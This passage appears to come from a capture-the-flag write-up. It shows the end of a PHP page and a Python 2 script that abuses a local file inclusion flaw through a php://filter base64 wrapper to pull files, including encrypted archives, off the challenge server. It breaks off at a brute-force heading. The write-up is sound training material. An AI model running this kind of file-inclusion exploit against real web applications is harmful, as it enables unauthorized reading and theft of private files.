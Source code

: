 ```php
  <script src="vendor/daterangepicker/daterangepicker.js"></script>
  <script src="vendor/countdowntime/countdowntime.js"></script>
  <script src="js/main.js"></script>

</body>
</html>
<?php
    }
    else
    {
        include('error.php');
    }
?>
```

### File extraction

Ok, now I think I'm seeing files stored in the drive, I made a little script to extract them:

```python
#!/usr/bin/python2

import requests
import base64

file_list = ['21f64da1e5792c8295b964d159a14491/rib-bnp.gif', '21f64da1e5792c8295b964d159a14491/test.html', 'images/vacances1.jpg', '21f64da1e5792c8295b964d159a14491/CONFIDENTIEL.zip', '21f64da1e5792c8295b964d159a14491/facture_mobile_sfr.png', '21f64da1e5792c8295b964d159a14491/camel.jpg', '21f64da1e5792c8295b964d159a14491/cat.jpg', '21f64da1e5792c8295b964d159a14491/funny_wtf.jpg', '21f64da1e5792c8295b964d159a14491/freshandhappy.mp3', '21f64da1e5792c8295b964d159a14491/intense.mp3', '21f64da1e5792c8295b964d159a14491/recup.zip', '21f64da1e5792c8295b964d159a14491/funny.jpg', '21f64da1e5792c8295b964d159a14491/goats.jpg', '21f64da1e5792c8295b964d159a14491/lol.jpg', '21f64da1e5792c8295b964d159a14491/rapport_SM.pdf', '21f64da1e5792c8295b964d159a14491/these.pdf', '21f64da1e5792c8295b964d159a14491/these-2.pdf', '21f64da1e5792c8295b964d159a14491/wallpaper.jpg', '21f64da1e5792c8295b964d159a14491/VeraCrypt.zip','21f64da1e5792c8295b964d159a14491/media','21f64da1e5792c8295b964d159a14491/documents']

for i in file_list:
  r = requests.get("https://archdrive.santhacklaus.xyz/index.php?page=pHp://FilTer/convert.base64-encode/resource="+str(i))
  data = base64.b64decode(r.text.split('\r\n')[-1].replace(' ',''))

  filename = i.replace('/','_')
  print("[+] Result written in: {0}".format(filename))
  f = open(filename, 'wb')
  f.write(data)
  f.close()
```

The __CONFIDENTIEL.zip__ contains garbage, nothing usefull. But the __recup.zip__ is encrypted! 

### Bruteforce time
